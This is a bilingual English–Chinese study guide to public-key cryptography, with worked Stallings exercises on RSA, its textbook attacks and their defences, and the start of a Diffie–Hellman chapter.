(b) \(X=C\cdot3^e \bmod n=14\cdot27=378\equiv48 \pmod{55}\). The oracle decrypts \(X\) and returns \(Y=48^{27} \bmod 55=27\), which is \(3M\). Since \(3^{-1}\equiv37\) (\(3\cdot37=111=2\cdot55+1\)), \(M=27\cdot37=999\equiv9\).(b) \(X=C\cdot3^e \bmod n=14\cdot27=378\equiv48 \pmod{55}\)。预言机解密 \(X\) 并返回 \(Y=48^{27} \bmod 55=27\)，即 \(3M\)。由于 \(3^{-1}\equiv37\)（\(3\cdot37=111=2\cdot55+1\)），故 \(M=27\cdot37=999\equiv9\)。
(c) OAEP forms \(DB=H(P)\,\Vert\,\text{padding}\,\Vert\,M\) and a random seed, computes \(\text{maskedDB}=DB\oplus\text{MGF}(\text{seed})\) and \(\text{maskedSeed}=\text{seed}\oplus\text{MGF}(\text{maskedDB})\), and RSA-encrypts \(EM=\text{maskedSeed}\,\Vert\,\text{maskedDB}\). The fresh seed randomizes each encryption, and every part of \(EM\) depends on all the others, so a ciphertext modified by multiplying it with another one decodes to garbage whose hash and padding check fails. No multiplicative structure survives. Simple random padding is not enough against refined attacks.(c) OAEP 构造 \(DB=H(P)\,\Vert\,\text{padding}\,\Vert\,M\) 与一个随机种子，计算 \(\text{maskedDB}=DB\oplus\text{MGF}(\text{seed})\) 与 \(\text{maskedSeed}=\text{seed}\oplus\text{MGF}(\text{maskedDB})\)，然后对 \(EM=\text{maskedSeed}\,\Vert\,\text{maskedDB}\) 进行 RSA 加密。新的种子使每次加密都具有随机性，而 \(EM\) 的每一部分都依赖于其他所有部分。因此，将一个密文与另一个密文相乘而被修改的密文，解码后只会得到乱码，其散列检查和填充检查都会失败，乘法结构也就不复存在。简单的随机填充不足以抵御精巧的攻击。
(d) At least 2048 bits (NIST SP 800-131A); 3072 bits or more for new systems (ENISA 2014; Canadian CSE by 2030). A 768-bit modulus was factored in 2009 and a 1024-bit one is only about a thousand times harder, which is within reach of a well-funded effort and of algorithmic progress.(d) 至少 2048 位（NIST SP 800-131A）；新系统使用 3072 位或更长（ENISA 2014；加拿大 CSE 为 2030 年前）。768 位模数已于 2009 年被分解，而 1024 位模数仅比其困难约一千倍，这在资金充足的攻关以及算法进步之下是可以实现的。
思路：(b) 把 C 乘上 3^e 让服务器替你解密，得到 3M，再乘 3 的逆；(c) OAEP 用随机种子和两层掩码破坏乘法性质。
Textbook exercises课后习题
Textbook exercises with answers: 13 questions教材习题及答案，共 13 题，点击展开
E1. (Review Question 9.1, Stallings) What is a public-key certificate?E1. （复习题 9.1，Stallings）什么是公钥证书？
Answer
A public-key certificate is a data structure that binds a public key to the identity of its owner. It contains the public key, the owner's identity and other data such as the validity period, and it is signed by a trusted certification authority (CA) with the CA's private key. Anyone who knows the CA's public key can verify the signature and so trust that the key really belongs to the named owner. Certificates let users distribute public keys without a secure channel and prevent a forger from announcing a fake key in someone else's name.公钥证书是一种数据结构，把公钥与其拥有者的身份绑定在一起。它包含公钥、拥有者的身份以及有效期等其他数据，并由可信的证书颁发机构（CA）用 CA 的私钥签名。任何知道 CA 公钥的人都可以验证签名，从而相信该公钥确实属于所指定的拥有者。有了证书，用户无需安全信道也能分发公钥，并且可以防止伪造者以他人的名义发布假密钥。
思路：证书 = CA 签名的“公钥 + 身份”绑定，用来证明公钥的归属。
E2. (Review Question 9.2, Stallings; 2.8, Stallings & Brown) What are the roles of the public and private key? What are the principal ingredients of a public-key cryptosystem?E2. （复习题 9.2，Stallings；2.8，Stallings & Brown）公钥和私钥各起什么作用？公钥密码体制的主要组成部分有哪些？
Answer
A public-key cryptosystem uses a pair of related keys. The public key is published and can be used by anyone; the private key is known only to its owner. What one key does, only the other can undo.公钥密码体制使用一对相关的密钥。公钥公开发布，任何人都可以使用；私钥只有其拥有者知道。一把密钥所做的操作，只有另一把能撤销。
The ingredients are:其组成部分如下：
- Plaintext: the readable message that is the input of the encryption algorithm.明文：作为加密算法输入的可读消息。
- Encryption algorithm: transforms the plaintext, using a key of the pair.加密算法：利用这对密钥中的一把对明文进行变换。
- Public and private key: the pair, one used for encryption and the other for decryption.公钥和私钥：这一对密钥，其中一把用于加密，另一把用于解密。
- Ciphertext: the scrambled output, which depends on the plaintext and the key used.密文：经过打乱后的输出，它取决于明文和所用的密钥。
- Decryption algorithm: takes the ciphertext and the matching key and recovers the plaintext.解密算法：以密文和与之匹配的密钥为输入，恢复出明文。
For confidentiality the sender encrypts with the receiver's public key and only the receiver's private key decrypts. For a signature the sender encrypts with its own private key and anyone verifies with the sender's public key.用于机密性时，发送方用接收方的公钥加密，只有接收方的私钥能解密。用于签名时，发送方用自己的私钥加密，任何人都可以用发送方的公钥验证。
思路：公钥公开、私钥保密；加密用对方公钥，签名用自己私钥。
E3. (Review Question 9.3, Stallings; 2.9, Stallings & Brown) What are three broad categories of applications of public-key cryptosystems? List and briefly define them.E3. （复习题 9.3，Stallings；2.9，Stallings & Brown）公钥密码体制的应用大致分为哪三类？请列出并简要定义。
Answer
- Encryption/decryption: the sender encrypts a message with the receiver's public key, so that only the receiver can read it.加密/解密：发送方用接收方的公钥加密消息，使只有接收方能读取它。
- Digital signature: the sender signs a message, or a hash of it, with its own private key, so that anyone can verify with the sender's public key who produced it and that it was not altered.数字签名：发送方用自己的私钥对消息或其散列值签名，使任何人都能用发送方的公钥验证消息由谁产生，且未被篡改。
- Key exchange: two parties use public-key techniques to agree on a session key, a short-lived symmetric key, which then protects the bulk data.密钥交换：双方利用公钥技术商定一个会话密钥，也就是一个短期使用的对称密钥，之后由它来保护大量数据。
Not every algorithm supports all three: RSA and elliptic-curve cryptography do, Diffie–Hellman supports only key exchange, and DSS only signatures.并非每种算法都支持这三类应用：RSA 和椭圆曲线密码都支持，Diffie–Hellman 只支持密钥交换，而 DSS 只支持签名。
E4. (Review Question 9.4, Stallings) What requirements must a public-key cryptosystem fulfill to be a secure algorithm?E4. （复习题 9.4，Stallings）公钥密码体制要成为安全的算法，必须满足哪些要求？
Answer
Let \(PU_b\) and \(PR_b\) be the public and private key of B. The requirements are:设 \(PU_b\) 和 \(PR_b\) 分别为 B 的公钥和私钥。要求如下：
- It is computationally easy for B to generate the key pair \((PU_b, PR_b)\).对 B 来说，生成密钥对 \((PU_b, PR_b)\) 在计算上是容易的。
- It is easy for A, knowing \(PU_b\) and the message \(M\), to compute \(C = E(PU_b, M)\).对 A 来说，已知 \(PU_b\) 和消息 \(M\) 时，计算 \(C = E(PU_b, M)\) 是容易的。
- It is easy for B to recover \(M = D(PR_b, C)\) using the private key.对 B 来说，利用私钥恢复 \(M = D(PR_b, C)\) 是容易的。
- It is computationally infeasible for an adversary who knows \(PU_b\) to find \(PR_b\).对于知道 \(PU_b\) 的敌手来说，求出 \(PR_b\) 在计算上是不可行的。
- It is infeasible for an adversary who knows \(PU_b\) and \(C\) to recover \(M\).对于已知 \(PU_b\) 与 \(C\) 的敌手而言，恢复 \(M\) 是不可行的。
- (Needed only for signatures) Either key can be used for encryption and the other for decryption: \(M = D[PU_b, E(PR_b, M)] = D[PR_b, E(PU_b, M)]\).（仅签名需要）两把密钥中的任一把都可以用于加密，另一把用于解密：\(M = D[PU_b, E(PR_b, M)] = D[PR_b, E(PU_b, M)]\)。
Together these amount to a trap-door one-way function: easy to compute in the forward direction, infeasible to invert unless one knows the trap door, which plays the role of the private key. In RSA the trap door is the factorization of \(n\).这些条件合在一起就是陷门单向函数：正向计算容易，但除非知道陷门（它起着私钥的作用），否则求逆是不可行的。在 RSA 中，陷门就是 \(n\) 的因数分解。
思路：易产生密钥、易加解密、但由公钥推私钥/明文不可行；本质是陷门单向函数。
E5. (Review Question 9.5, Stallings) How can a probable-message attack be used for public-key cryptanalysis?E5. （复习题 9.5，Stallings）如何利用可能消息攻击进行公钥密码分析？
Answer
The public key is known to everybody, so an adversary can encrypt any message. If the plaintext comes from a small, guessable set, the adversary encrypts every candidate with the public key and compares the results with the intercepted ciphertext. A match reveals the plaintext without ever touching the private key.公钥人人都知道，因此敌手可以加密任何消息。如果明文取自一个很小且容易猜到的集合，敌手就用公钥加密每一个候选，并把结果与截获的密文比较。一旦匹配，就得到了明文，而完全不需要接触私钥。
Example: the message is only a 56-bit DES key. The adversary encrypts all \(2^{56}\) possible keys with the public key and finds the transmitted one. Whatever the size of the public-key modulus, the attack is reduced to a brute-force search over the 56-bit space.例如：消息只是一个 56 位的 DES 密钥。敌手用公钥加密全部 \(2^{56}\) 个可能的密钥，从而找到所传输的那一个。无论公钥模数有多大，这种攻击都会归结为对 56 位空间的穷举搜索。
The defence is to append random bits to short or predictable messages before encryption, so that the set of possible plaintexts becomes too large to enumerate (this is what padding such as OAEP does).防御方法是：在加密前为短消息或可预测的消息附加随机比特，使可能明文的集合大到无法枚举（OAEP 这类填充正是这样做的）。
思路：公钥人人可得，明文空间小就能“加密所有候选再比对”；加随机填充防御。
E6. (Review Question 9.6, Stallings; 21.5, Stallings & Brown) List the different approaches to attack the RSA algorithm.E6. （复习题 9.6，Stallings；21.5，Stallings & Brown）列出攻击 RSA 算法的不同方法。
Answer
- Brute force: try all possible private keys. The defence is a large key space, that is, a large \(d\) and \(n\); the cost is slower key generation and encryption.穷举攻击：尝试所有可能的私钥。防御方法是使用大的密钥空间，即较大的 \(d\) 和 \(n\)；代价是密钥生成和加密变慢。
- Mathematical attacks: factor \(n = pq\) and compute \(\phi(n)\) and \(d\), or find \(\phi(n)\) or \(d\) directly. All are about as hard as factoring \(n\). The defence is a large modulus with carefully chosen \(p\) and \(q\).数学攻击：分解 \(n = pq\) 并计算 \(\phi(n)\) 和 \(d\)，或直接求出 \(\phi(n)\) 或 \(d\)。这些攻击的难度都大致相当于分解 \(n\)。防御方法是使用足够大的模数，并精心选取 \(p\) 和 \(q\)。
- Timing attacks: measure how long decryption takes for many ciphertexts and infer the bits of \(d\). The defence is constant-time exponentiation, random delays or blinding.计时攻击：对大量密文测量解密所需时间，并由此推断 \(d\) 的各位。防御方法是恒定时间的幂运算、随机延迟或盲化。
- Chosen-ciphertext attacks: the adversary gets chosen ciphertexts decrypted and exploits the multiplicative structure of RSA. The defence is padding such as OAEP.选择密文攻击：敌手让选定的密文被解密，并利用 RSA 的乘性结构。防御方法是 OAEP 之类的填充。
Some lists add a fifth approach, hardware fault attacks, in which faults induced in the signing processor reveal the key; it needs physical access.有些列表还会加上第五种方法，即硬件故障攻击：在签名处理器中人为引入故障，从而泄露密钥；该攻击需要物理接触。
E7. (Review Question 9.7, Stallings) Describe the countermeasures to be used against the timing attack.E7. （复习题 9.7，Stallings）描述针对计时攻击应采取的对策。
Answer
A timing attack works because the running time of square-and-multiply depends on the bits of the private exponent \(d\) (a 1 bit costs an extra multiplication) and on the operands. The countermeasures are:计时攻击之所以有效，是因为平方-乘算法的运行时间取决于私钥指数 \(d\) 的各位（遇到 1 位要多做一次乘法），也取决于操作数。对策如下：
| Countermeasure对策 | How it works工作方式 | Drawback缺点 |
|---|---|---|
| Constant exponentiation time恒定幂运算时间 | Make every exponentiation take the same time, whatever the key bits无论密钥各位如何，都让每次幂运算耗费相同的时间 | Lowers performance, since all runs take as long as the slowest降低性能，因为每次运行都要与最慢的一次一样长 |
| Random delay随机延迟 | Add a random delay to each decryption to confuse the statistics在每次解密中加入随机延迟，以扰乱统计 | With too little noise the attacker averages it out with more measurements如果噪声太小，攻击者可以通过更多测量把它平均掉 |
| Blinding盲化 | Multiply the ciphertext by a secret random number before exponentiating and remove it afterwards在做幂运算之前把密文乘以一个秘密随机数，运算之后再把它去掉 | About 2–10% slower大约慢 2%–10% |
Blinding in detail: choose a fresh random \(r\) coprime to \(n\), compute \(C' = C r^e \bmod n\), then \(M' = (C')^d \bmod n\), and finally \(M = M' r^{-1} \bmod n\). This is correct because \((C r^e)^d \equiv M r \pmod n\). The attacker cannot know the value that is exponentiated, so the bit-by-bit analysis fails.盲化的具体步骤：先选取一个与 \(n\) 互素的新随机数 \(r\)，计算 \(C' = C r^e \bmod n\)，然后计算 \(M' = (C')^d \bmod n\)，最后得到 \(M = M' r^{-1} \bmod n\)。这样做之所以正确，是因为 \((C r^e)^d \equiv M r \pmod n\)。攻击者无法知道被求幂的值，因此逐位分析会失效。
E8. (Review Question 2.10, Stallings & Brown) What is the difference between a private key and a secret key?E8. （复习题 2.10，Stallings & Brown）私钥与秘密密钥有什么区别？
Answer
A secret key belongs to symmetric cryptography: one key is used for both encryption and decryption, and the two communicating parties both know it and must keep it secret. A private key belongs to public-key (asymmetric) cryptography: it is one half of a key pair, the other half being the public key. The private key is known to its owner only and is never shared; the public key can be published freely.秘密密钥属于对称密码：同一把密钥既用于加密也用于解密，通信双方都知道它，并且必须对它保密。私钥属于公钥（非对称）密码：它是一对密钥中的一半，另一半是公钥。私钥只有其拥有者知道，从不共享；公钥则可以自由公布。
Consequence: a secret key must be distributed over a secure channel, whereas a private key never has to leave its owner.由此可知：秘密密钥必须通过安全信道分发，而私钥则永远不必离开它的拥有者。
E9. (Problem 9.2, Stallings) Perform encryption and decryption using the RSA algorithm for each of the following: (a) \(p=3\), \(q=7\), \(e=5\), \(M=10\); (b) \(p=5\), \(q=13\), \(e=5\), \(M=8\); (c) \(p=7\), \(q=17\), \(e=11\), \(M=11\); (d) \(p=7\), \(q=13\), \(e=11\), \(M=2\); (e) \(p=17\), \(q=23\), \(e=9\), \(M=7\).E9. （习题 9.2，Stallings）对下列各组参数，用 RSA 算法进行加密和解密：(a) \(p=3\)、\(q=7\)、\(e=5\)、\(M=10\)；(b) \(p=5\)、\(q=13\)、\(e=5\)、\(M=8\)；(c) \(p=7\)、\(q=17\)、\(e=11\)、\(M=11\)；(d) \(p=7\)、\(q=13\)、\(e=11\)、\(M=2\)；(e) \(p=17\)、\(q=23\)、\(e=9\)、\(M=7\)。
Answer
Method: \(n = pq\), \(\phi(n) = (p-1)(q-1)\), \(d = e^{-1} \bmod \phi(n)\), \(C = M^e \bmod n\), \(M = C^d \bmod n\). Decryption is done by finesse: reduce \(C\) and \(d\) modulo \(p\) and \(q\) (Fermat: exponent modulo \(p-1\) and \(q-1\)), then combine the two residues by the Chinese remainder theorem.方法：\(n = pq\)、\(\phi(n) = (p-1)(q-1)\)、\(d = e^{-1} \bmod \phi(n)\)、\(C = M^e \bmod n\)、\(M = C^d \bmod n\)。解密时采用一种巧妙的做法：先把 \(C\) 和 \(d\) 分别对 \(p\) 和 \(q\) 取模（依据费马定理，指数对 \(p-1\) 和 \(q-1\) 取模），然后用中国剩余定理把两个余数合并起来。
| \(n\) | \(\phi(n)\) | \(d\) | \(C = M^e \bmod n\) | \(C \bmod p,\ C \bmod q\) | \(C^d \bmod p,\ \bmod q\) | \(M\) | |
|---|---|---|---|---|---|---|---|
| a | 21 | 12 | 5 | 19 | 1, 5 | 1, 3 | 10 |
| b | 65 | 48 | 29 | 8 | 3, 8 | 3, 8 | 8 |
| c | 119 | 96 | 35 | 114 | 2, 12 | 4, 11 | 11 |
| d | 91 | 72 | 59 | 46 | 4, 7 | 2, 2 | 2 |
| e | 391 | 352 | 313 | 61 | 10, 15 | 7, 7 | 7 |
Example (a): \(10^2 = 100 \equiv 16\), \(10^4 \equiv 256 \equiv 4\), so \(C = 10^4 \cdot 10 = 40 \equiv 19 \pmod{21}\). For decryption, \(d \bmod 2 = 1\) and \(d \bmod 6 = 5\), so \(19^5 \equiv 1^1 \equiv 1 \pmod 3\) and \(19^5 \equiv 5^5 \equiv 3 \pmod 7\). The number that is \(1 \bmod 3\) and \(3 \bmod 7\) is \(10\), which is \(M\).例 (a)：\(10^2 = 100 \equiv 16\)、\(10^4 \equiv 256 \equiv 4\)，所以 \(C = 10^4 \cdot 10 = 40 \equiv 19 \pmod{21}\)。解密时，\(d \bmod 2 = 1\) 和 \(d \bmod 6 = 5\)，所以 \(19^5 \equiv 1^1 \equiv 1 \pmod 3\) 和 \(19^5 \equiv 5^5 \equiv 3 \pmod 7\)。同时满足 \(1 \bmod 3\) 和 \(3 \bmod 7\) 的数是 \(10\)，也就是 \(M\)。
Example (e): \(7^2 = 49\), \(7^4 = 49^2 \equiv 55\), \(7^8 \equiv 55^2 \equiv 288\), so \(C = 7^8 \cdot 7 \equiv 288 \cdot 7 = 2016 \equiv 61 \pmod{391}\). Each decryption returns the original \(M\), as it must since \(ed \equiv 1 \pmod{\phi(n)}\).例 (e)：\(7^2 = 49\)、\(7^4 = 49^2 \equiv 55\)、\(7^8 \equiv 55^2 \equiv 288\)，所以 \(C = 7^8 \cdot 7 \equiv 288 \cdot 7 = 2016 \equiv 61 \pmod{391}\)。每次解密都返回原来的 \(M\)，这是必然的，因为 \(ed \equiv 1 \pmod{\phi(n)}\)。
思路：先算 n、φ(n)、d；解密时按 mod p、mod q 约化指数，再用中国剩余定理合并。
E10. (Problem 9.4, Stallings) In an RSA system, the public key of a given user is \(e = 65\), \(n = 2881\). What is the private key of this user?E10. （习题 9.4，Stallings）在某个 RSA 系统中，某用户的公钥是 \(e = 65\)、\(n = 2881\)。该用户的私钥是什么？
Answer
The private key is \(d = e^{-1} \bmod \phi(n)\), so \(n\) must be factored first. Trial division gives \(2881 = 43 \times 67\). Then \(\phi(n) = 42 \times 66 = 2772\). Since \(2772 = 2^2 \cdot 3^2 \cdot 7 \cdot 11\) and \(65 = 5 \cdot 13\), \(\gcd(65, 2772) = 1\) and the inverse exists.私钥是 \(d = e^{-1} \bmod \phi(n)\)，因此必须先分解 \(n\)。试除法得到 \(2881 = 43 \times 67\)。然后 \(\phi(n) = 42 \times 66 = 2772\)。由于 \(2772 = 2^2 \cdot 3^2 \cdot 7 \cdot 11\) 且 \(65 = 5 \cdot 13\)，所以 \(\gcd(65, 2772) = 1\)，逆元存在。
Extended Euclidean algorithm (forward):扩展欧几里得算法（正向）：
2772 = 42*65 + 42
65 = 1*42 + 23
42 = 1*23 + 19
23 = 1*19 + 4
19 = 4*4 + 3
4 = 1*3 + 1
Back-substitution: \(1 = 4 - 3 = 5\cdot 4 - 19 = 5\cdot 23 - 6\cdot 19 = 11\cdot 23 - 6\cdot 42 = 11\cdot 65 - 17\cdot 42 = 725\cdot 65 - 17\cdot 2772\).回代：\(1 = 4 - 3 = 5\cdot 4 - 19 = 5\cdot 23 - 6\cdot 19 = 11\cdot 23 - 6\cdot 42 = 11\cdot 65 - 17\cdot 42 = 725\cdot 65 - 17\cdot 2772\)。
Hence \(65 \cdot 725 \equiv 1 \pmod{2772}\), and \(d = 725\). Check: \(65 \cdot 725 = 47125 = 17 \cdot 2772 + 1\). The private key is \(PR = \{725, 2881\}\). Knowing the factorization of \(n\) is exactly what lets us compute \(d\); without it the public key does not reveal \(d\).因此 \(65 \cdot 725 \equiv 1 \pmod{2772}\)，并且 \(d = 725\)。验算：\(65 \cdot 725 = 47125 = 17 \cdot 2772 + 1\)。私钥是 \(PR = \{725, 2881\}\)。知道 \(n\) 的因数分解，正是我们能够计算 \(d\) 的原因；如果没有它，公钥就不会泄露 \(d\)。
思路：分解 n=43×67，得 φ(n)=2772，再用扩展欧几里得求 e 的逆元 725。
E11. (Problem 9.8, Stallings) Suppose Bob uses the RSA cryptosystem with a very large modulus \(n\) for which the factorization cannot be found in a reasonable amount of time. Alice sends a message to Bob by representing each alphabetic character as an integer between 0 and 25 (\(A \to 0\), \(\ldots\), \(Z \to 25\)) and then encrypting each number separately using RSA with large \(e\) and large \(n\). Is this method secure? If not, describe the most efficient attack against this encryption method.E11. （习题 9.8，Stallings）假设 Bob 使用 RSA 密码体制，其模数 \(n\) 非常大，以至于在合理的时间内无法分解。Alice 把每个字母表示为 0 到 25 之间的整数（\(A \to 0\)、\(\ldots\)、\(Z \to 25\)），然后分别用 RSA 加密每个数，所用的 \(e\) 和 \(n\) 都很大。这种方法安全吗？如果不安全，请描述针对这种加密方法最有效的攻击。
Answer
The method is not secure, in spite of the large modulus. Plain RSA is deterministic, so a given plaintext number always gives the same ciphertext. Here there are only 26 possible plaintexts. The attack is a probable-message (table lookup) attack that needs no factoring:尽管模数很大，这种方法仍然不安全。原始 RSA 是确定性的，同一个明文数字总是得到相同的密文。这里可能的明文只有 26 个。该攻击是一种可能消息攻击（即查表攻击），无需分解因数：
- Using Bob's public key \((e, n)\), compute \(C_i = i^e \bmod n\) for \(i = 0, 1, \ldots, 25\) and store the 26 values.用 Bob 的公钥 \((e, n)\)，对 \(i = 0, 1, \ldots, 25\) 计算 \(C_i = i^e \bmod n\)，并把这 26 个值存起来。
- For every intercepted ciphertext block, look it up in the table. The match gives the letter.对每个截获的密文分组，在表中查找。匹配的那一项即给出字母。
The message is thereby turned into a monoalphabetic substitution cipher with a known table, so it is read at once. The fix is to encrypt longer blocks, so that the plaintext space is huge, and to add random padding (for example OAEP), which also makes the encryption probabilistic.这样，消息就变成了一个表已知的单表代换密码，因此可以立即读出。修补办法是加密更长的分组，使明文空间变得很大；同时添加随机填充（例如 OAEP），这也使加密具有概率性。
思路：明文只有 26 种，公钥加密全部 26 个字母建表即可对照，无需分解 n。
E12. (Problem 9.10, Stallings) Suppose a very small public exponent, such as \(e = 3\), is used to encrypt a secret message with RSA. Would it affect the security of the algorithm?E12. （习题 9.10，Stallings）假设用 RSA 加密一条秘密消息时，使用了非常小的公开指数，例如 \(e = 3\)。这会影响算法的安全性吗？
Answer
A small \(e\) is not a weakness of the RSA mathematics in itself (and it makes encryption fast: only two modular multiplications), but it opens attacks when the message is used without proper padding:小的 \(e\) 本身并不是 RSA 数学上的弱点（它还使加密很快：只需两次模乘），但如果消息在没有适当填充的情况下使用，它就会打开攻击的大门：
- Short message. If \(M < n^{1/3}\), then \(M^3 < n\), the modular reduction never happens, and \(C = M^3\) over the integers. The attacker takes the ordinary cube root of \(C\) and obtains \(M\) without the private key.短消息。 若 \(M < n^{1/3}\)，则 \(M^3 < n\)，模约化永远不会发生，于是 \(C = M^3\) 在整数上成立。攻击者对 \(C\) 开普通的立方根，即可在没有私钥的情况下得到 \(M\)。
- Same message to several receivers (broadcast attack). If \(M\) is sent to three receivers with \(e = 3\) and pairwise coprime moduli \(n_1, n_2, n_3\), the attacker has \(M^3\) modulo each of them. The Chinese remainder theorem gives \(M^3 \bmod n_1 n_2 n_3\). Since \(M^3 < n_1 n_2 n_3\), this equals \(M^3\) exactly, and a cube root gives \(M\).同一消息发给多个接收者（广播攻击）。 若 \(M\) 被发送给三个接收者，公开指数为 \(e = 3\)，且模数 \(n_1, n_2, n_3\) 两两互素，那么攻击者就得到了每个模数下的 \(M^3\)。中国剩余定理给出 \(M^3 \bmod n_1 n_2 n_3\)。由于 \(M^3 < n_1 n_2 n_3\)，它恰好等于 \(M^3\)，再开立方根即得到 \(M\)。
- Related or poorly padded messages can be attacked in a similar way.相关的或填充不当的消息也可以用类似的方式攻击。
Therefore a small \(e\) is safe only together with randomized padding (OAEP) that makes the padded message as large as \(n\) and different for every receiver. This is why \(e = 65537\) is also common: it is still fast (17 bits, two 1 bits) but resists these attacks better.因此，只有与随机填充（OAEP）结合使用，小的 \(e\) 才是安全的；这种填充使填充后的消息与 \(n\) 一样大，并且对每个接收者都不同。这也是 \(e = 65537\) 常被采用的原因：它仍然很快（17 位，只有两个 1 位），而且更能抵抗这些攻击。
思路：e=3 本身不破，但无填充时 M³<n 或广播给三方，可直接开立方还原明文。
E13. (Problem 9.18, Stallings) Bob intercepts a ciphertext \(C\) intended for Alice and encrypted with Alice's public key \(e\). Bob wants the original message \(M = C^d \bmod n\). Bob chooses a random value \(r\) less than \(n\) and computes \(Z = r^e \bmod n\), \(X = ZC \bmod n\), \(t = r^{-1} \bmod n\). Next, Bob gets Alice to sign \(X\) with her private key, which decrypts it. Alice returns \(Y = X^d \bmod n\). Show how Bob can use the information now available to him to determine \(M\).E13. （习题 9.18，Stallings）Bob 截获了一个发给 Alice、用 Alice 的公钥 \(e\) 加密的密文 \(C\)。Bob 想得到原始消息 \(M = C^d \bmod n\)。Bob 选取一个小于 \(n\) 的随机数 \(r\)，并计算 \(Z = r^e \bmod n\)、\(X = ZC \bmod n\) 和 \(t = r^{-1} \bmod n\)。接着，Bob 让 Alice 用她的私钥对 \(X\) 签名（这一步实际上就是解密），Alice 返回 \(Y = X^d \bmod n\)。请说明 Bob 如何利用此时已掌握的信息求出 \(M\)。
Answer
Bob computes \(M = tY \bmod n\). Proof, all modulo \(n\):Bob 计算 \(M = tY \bmod n\)。证明如下，所有运算均对 \(n\) 取模：
\[Y = X^d = (r^e C)^d = r^{ed}\, C^d \equiv r \cdot M,\]
because \(r^{ed} \equiv r\) (the RSA identity \(ed \equiv 1 \bmod \phi(n)\)) and \(C^d = M\). Multiplying by \(t = r^{-1}\) gives \(tY \equiv r^{-1} r M = M \pmod n\).因为 \(r^{ed} \equiv r\)（即 RSA 恒等式 \(ed \equiv 1 \bmod \phi(n)\)），且 \(C^d = M\)。乘以 \(t = r^{-1}\) 即得 \(tY \equiv r^{-1} r M = M \pmod n\)。
What it shows: \(X = r^e C\) looks like a random number and reveals nothing about \(C\), so Alice signs it without suspecting that she is decrypting Bob's intercepted ciphertext. This is a chosen-ciphertext attack that uses the multiplicative property \(E(M_1)E(M_2) = E(M_1 M_2)\) of plain RSA. Defences: never sign or decrypt data received from others without first hashing it or checking its padding structure (OAEP), and use different keys for signing and for decryption.这说明：\(X = r^e C\) 看起来像一个随机数，并不泄露 \(C\) 的任何信息，因此 Alice 在签名时不会怀疑自己正在解密 Bob 截获的密文。这是一种选择密文攻击，它利用了原始 RSA 的乘性 \(E(M_1)E(M_2) = E(M_1 M_2)\)。防御办法是：不要在未先做散列或检查填充结构（OAEP）的情况下，对他人发来的数据进行签名或解密；并且签名与解密应使用不同的密钥。
思路：利用 RSA 的乘法同态，签名 X=r^e·C 得 r·M，再乘 r 的逆元去掉 r。
Chapter 10Diffie–Hellman, ElGamal and Elliptic Curve CryptographyDiffie–Hellman、ElGamal 与椭圆曲线密码Reading: Stallings (Crypto) Ch. 10; Stallings & Brown 21.5
Diffie–Hellman key exchange ★★★Diffie–Hellman 密钥交换
Goal. Compute the public keys and the shared key of a Diffie–Hellman exchange by hand. Explain why an eavesdropper cannot find the key.目标。 手工计算一次 Diffie–Hellman 交换中的公钥和共享密钥。解释窃听者为什么无法求得密钥。
Step 1: the exchange第 1 步：密钥交换
In words: Diffie–Hellman = each side keeps a secret exponent and publishes a power of a common number. Each side then raises the other side's published value to its own secret exponent. Both get the same result.用文字表述：Diffie–Hellman = 每一方保留一个秘密指数，并公布某个公共数的一次幂。然后，每一方把对方公布的值再求自己秘密指数次幂。双方得到相同的结果。
Diffie–Hellman key exchange（Diffie–Hellman 密钥交换）lets two users agree on a secret value that they use as a symmetric key. It does not encrypt messages and it does not check who the users are.Diffie–Hellman 密钥交换让两个用户商定一个秘密值，并把它用作对称密钥。它不加密消息，也不核实用户的身份。
Everyday example (not from the course): both mix a secret colour into the same public paint, swap the mixtures, and add their own secret colour again. Both end with the same colour. Nobody can unmix the swapped paint.生活中的例子（不是课程内容）：双方各自把一种秘密颜色加入同一种公开的颜料中，交换混合后的颜料，再各自加入自己的秘密颜色。最后双方得到相同的颜色。没有人能够把交换过的颜料再分离出来。
The public values are a prime \(q\) and a primitive root \(\alpha\) of \(q\) with \(\alpha\lt q\). Alice chooses a private key \(X_A\lt q\) and Bob chooses \(X_B\lt q\). Each publishes \(Y=\alpha^X \bmod q\), where \(X\) is that user's private key. So \(Y_A\) and \(Y_B\) are the public keys.公开的数有：素数 \(q\)，以及 \(q\) 的一个原根 \(\alpha\)，其中 \(\alpha\lt q\)。Alice 选取私钥 \(X_A\lt q\)，Bob 选取 \(X_B\lt q\)。双方各自公布 \(Y=\alpha^X \bmod q\)，其中 \(X\) 是该用户的私钥。因此 \(Y_A\) 和 \(Y_B\) 即为公钥。
| Alice | Bob | |
|---|---|---|
| Private key私钥 | \(X_A\) | \(X_B\) |
| Public key (sent in the clear)公钥（明文传送） | \(Y_A=\alpha^{X_A}\bmod q\) | \(Y_B=\alpha^{X_B}\bmod q\) |
| Shared secret key共享密钥 | \(K=(Y_B)^{X_A}\bmod q\) | \(K=(Y_A)^{X_B}\bmod q\) |
How to do it by hand:手工操作的方法：
- Compute \(Y_A=\alpha^{X_A}\bmod q\) and \(Y_B=\alpha^{X_B}\bmod q\) with square-and-multiply (Section 9.3).用平方-乘算法计算 \(Y_A=\alpha^{X_A}\bmod q\) 和 \(Y_B=\alpha^{X_B}\bmod q\)（见第 9.3 节）。
- Alice computes \(K=(Y_B)^{X_A}\bmod q\). Bob computes \(K=(Y_A)^{X_B}\bmod q\).Alice 计算 \(K=(Y_B)^{X_A}\bmod q\)，Bob 计算 \(K=(Y_A)^{X_B}\bmod q\)。
- Check that both results are equal.检查双方的结果是否相等。
Step 2: why an eavesdropper fails第 2 步：窃听者为什么失败
In words: the eavesdropper sees only the public values, and turning them into the key needs a discrete logarithm, which is infeasible for a large prime.用文字表述：窃听者只能看到公开值，而要由它们算出密钥，就需要求离散对数，对大素数来说这是不可行的。
